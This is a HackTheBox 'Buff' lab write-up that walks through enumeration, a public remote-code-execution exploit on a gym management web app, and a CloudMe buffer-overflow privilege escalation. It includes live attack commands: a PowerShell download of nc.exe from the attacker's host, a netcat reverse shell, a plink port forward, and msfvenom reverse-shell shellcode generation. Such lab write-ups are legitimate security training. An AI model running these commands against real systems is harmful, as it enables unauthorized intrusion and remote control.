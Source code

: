 [HackTheBox] Buff
===============
date: 24/Nov/2020
summary: This is the summary for an awesome post.
tags: hackthebox, writeup

## Overview
This is a writeup for HackTheBox VM [Buff](https://www.hackthebox.eu/home/machines/profile/263). Here are stats for this machine from [machinescli](https://github.com/7h3rAm/machinescli):

![writeup.overview.machinescli](/static/files/posts_htb_buff/machinescli.png.webp)

### Killchain
Here's the killchain (`enumeration` → `exploitation` → `privilege escalation`) for this machine:

![writeup.overview.killchain](/static/files/posts_htb_buff/killchain.png.webp)

### TTPs
1\. `8080/tcp/http/Apache httpd 2.4.43 ((Win64) OpenSSL/1.1.1g PHP/7.4.6)`: [enumerate_proto_http](https://github.com/7h3rAm/writeups#enumerate_proto_http), [exploit_gymsystem_rce](https://github.com/7h3rAm/writeups#exploit_gymsystem_rce), [exploit_cloudme_bof](https://github.com/7h3rAm/writeups#exploit_cloudme_bof)  

## Phase #1: Enumeration
1\. Here's the Nmap scan result:  
```
# Nmap 7.80 scan initiated Wed Jul 22 21:04:22 2020 as: nmap -vv --reason -Pn -sV -sC --version-all -oN /home/kali/toolbox/repos/writeupsall/htb.buff/10.10.10.198/scans/_quick_tcp_nmap.txt -oX /home/kali/toolbox/repos/writeupsall/htb.buff/10.10.10.198/scans/xml/_quick_tcp_nmap.xml 10.10.10.198
Nmap scan report for 10.10.10.198
Host is up, received user-set (0.34s latency).
Scanned at 2020-07-22 21:04:36 IST for 101s
Not shown: 999 filtered ports
Reason: 999 no-responses
PORT     STATE SERVICE REASON  VERSION
8080/tcp open  http    syn-ack Apache httpd 2.4.43 ((Win64) OpenSSL/1.1.1g PHP/7.4.6)
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-open-proxy: Proxy might be redirecting requests
|_http-server-header: Apache/2.4.43 (Win64) OpenSSL/1.1.1g PHP/7.4.6
|_http-title: mrb3n's Bro Hut

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Wed Jul 22 21:06:17 2020 -- 1 IP address (1 host up) scanned in 114.83 seconds
```

2\. Here's the summary of open ports and associated [AutoRecon](https://github.com/Tib3rius/AutoRecon) scan files:  

![writeup.enumeration.steps.2.1](/static/files/posts_htb_buff/openports.png.webp)  

3\. We find '8080/tcp' to be open and running `Apache httpd 2.4.43`. We start by looking at the webpage and find it be hosting a fitness center portal:  

![writeup.enumeration.steps.3.1](/static/files/posts_htb_buff/screenshot01.png.webp)  

4\. We find multiple pages from the `gobuster` scan results and upon visiting `/contacts.php` page, we find that we are interacting with the `Gym Management Software 1.0` web application:  
```
cat ./10.10.10.198/scans/tcp_8080_http_gobuster.txt | grep -v 403
  /ADMIN (Status: 301) [Size: 343]
  /About.php (Status: 200) [Size: 5337]
  /Admin (Status: 301) [Size: 343]
  /Contact.php (Status: 200) [Size: 4169]
  /Home.php (Status: 200) [Size: 143]
  /Index.php (Status: 200) [Size: 4969]
  /LICENSE (Status: 200) [Size: 18025]
  /about.php (Status: 200) [Size: 5337]
  /admin (Status: 301) [Size: 343]
  /boot (Status: 301) [Size: 342]
  /contact.php (Status: 200) [Size: 4169]
  /edit.php (Status: 200) [Size: 4282]
  /ex (Status: 301) [Size: 340]
  /feedback.php (Status: 200) [Size: 4252]
  /home.php (Status: 200) [Size: 143]
  /img (Status: 301) [Size: 341]
  /include (Status: 301) [Size: 345]
  /index.php (Status: 200) [Size: 4969]
  /index.php (Status: 200) [Size: 4969]
  /license (Status: 200) [Size: 18025]
  /packages.php (Status: 200) [Size: 7791]
  /profile (Status: 301) [Size: 345]
  /register.php (Status: 200) [Size: 137]
  /up.php (Status: 200) [Size: 209]
  /upload (Status: 301) [Size: 344]
  /upload.php (Status: 200) [Size: 107]
```

![writeup.enumeration.steps.4.1](/static/files/posts_htb_buff/screenshot02.png.webp)  

### Findings
#### Open Ports
```
8080/tcp   http         Apache httpd 2.4.43 ((Win64) OpenSSL/1.1.1g PHP/7.4.6)
```

## Phase #2: Exploitation
1\. We use `searchsploit` to find exploits for the webapp and find an unauthenticated remote code execution vulnerability. We inspect the exploit and upon executing it, we get a pseudo-interactive shell on the target machine:  
```
python 48506.py http://10.10.10.198:8080/
```

![writeup.exploitation.steps.1.1](/static/files/posts_htb_buff/screenshot03.png.webp)  

![writeup.exploitation.steps.1.2](/static/files/posts_htb_buff/screenshot04.png.webp)  

2\. To get a fully interactive shell, we use powershell to transfer netcat binary, start a local netcat listener and then catch the incoming connection:  
```
nc -nlvp 4433

powershell -c "(new-object System.Net.WebClient).DownloadFile('http://10.10.14.8:8000/nc.exe','C:\Users\shaun\Desktop\nc.exe')"
C:\Users\shaun\Desktop\nc.exe 10.10.14.8 4433 -e cmd.exe
```

![writeup.exploitation.steps.2.1](/static/files/posts_htb_buff/screenshot05.png.webp)  

![writeup.exploitation.steps.2.2](/static/files/posts_htb_buff/screenshot06.png.webp)  

3\. We use this interactive access to read the `user.txt` flag:  
```
type C:\Users\shaun\Desktop\user.txt
```

![writeup.exploitation.steps.3.1](/static/files/posts_htb_buff/screenshot07.png.webp)  

## Phase #2.5: Post Exploitation
```
buff\shaun@BUFF> id
buff\shaun
buff\shaun@BUFF>  
buff\shaun@BUFF> uname
Host Name:                 BUFF
OS Name:                   Microsoft Windows 10 Enterprise
OS Version:                10.0.17134 N/A Build 17134
OS Manufacturer:           Microsoft Corporation
OS Configuration:          Standalone Workstation
OS Build Type:             Multiprocessor Free
buff\shaun@BUFF>  
buff\shaun@BUFF> ifconfig
Windows IP Configuration
  Ethernet adapter Ethernet0:
    Connection-specific DNS Suffix  . :
    IPv6 Address. . . . . . . . . . . : dead:beef::616c:bed8:4b75:6e17
    Temporary IPv6 Address. . . . . . : dead:beef::7813:413b:2e52:5901
    Link-local IPv6 Address . . . . . : fe80::616c:bed8:4b75:6e17%10
    IPv4 Address. . . . . . . . . . . : 10.10.10.198
    Subnet Mask . . . . . . . . . . . : 255.255.255.0
    Default Gateway . . . . . . . . . : fe80::250:56ff:feb9:9eb2%10
                                        10.10.10.2
buff\shaun@BUFF>  
buff\shaun@BUFF> users
Administrator
shaun
```

## Phase #3: Privilege Escalation
1\. We use `winPEAS.exe` to enumerate the target machine and within the `services restricted from the outside` section, find an interesting service bound to `127.0.0.1:8888`:  
```
netstat -anp tcp
```

![writeup.privesc.steps.1.1](/static/files/posts_htb_buff/screenshot08.png.webp)  

2\. We find this to be a `CloudMe` process and there's a binary named `CloudMe_1112.exe` within the `C:\Users\shaun\Downloads` directory that hints that the version could be `1.11.2`:  
```
powershell ps
```

![writeup.privesc.steps.2.1](/static/files/posts_htb_buff/screenshot09.png.webp)  

![writeup.privesc.steps.2.2](/static/files/posts_htb_buff/screenshot10.png.webp)  

3\. We find a buffer overflow exploit for this application that could give us elevated privileges if the `CloudMe` process is running as Administrator:  
```
searchsploit cloudme
```

![writeup.privesc.steps.3.1](/static/files/posts_htb_buff/screenshot11.png.webp)  

4\. But we cannot connect to this service from our attacking machine. We will need to setup a port forward for this exploit to work. We start the SSH service on our attacking machine, transfer the `plink.exe` binary and setup the port forward:  
```
service ssh restart
service ssh status
powershell -c "(new-object System.Net.WebClient).DownloadFile('http://10.10.14.8:8000/plink64.exe','C:\Users\shaun\Desktop\plink.exe')"
C:\Users\shaun\Desktop\plink.exe -v -x -a -T -C -noagent -ssh -pw "kali" -R 8888:127.0.0.1:8888 kali@10.10.14.8
```

![writeup.privesc.steps.4.1](/static/files/posts_htb_buff/screenshot12.png.webp)  

![writeup.privesc.steps.4.2](/static/files/posts_htb_buff/screenshot13.png.webp)  

5\. We update the exploit with the right shellcode, setup a reverse shell to catch incoming connection and run the exploit:  
```
msfvenom -p windows/shell_reverse_tcp lhost=10.10.14.8 lport=443 -b "\x00\x0a\x0d" -f python -a x86 --platform windows -e x86/shikata_ga_nai

sudo nc -nlvp 443
python 48389.py
```

![writeup.privesc.steps.5.1](/static/files/posts_htb_buff/screenshot14.png.webp)  

6\. We immmediately get an elevated reverse shell connection and use it to read the `root.txt` flag:  
```
type C:\Users\Administrator\Desktop\root.txt
```

![writeup.privesc.steps.6.1](/static/files/posts_htb_buff/screenshot15.png.webp)  

## References
* <https://www.hackthebox.eu/home/machines/profile/263>  
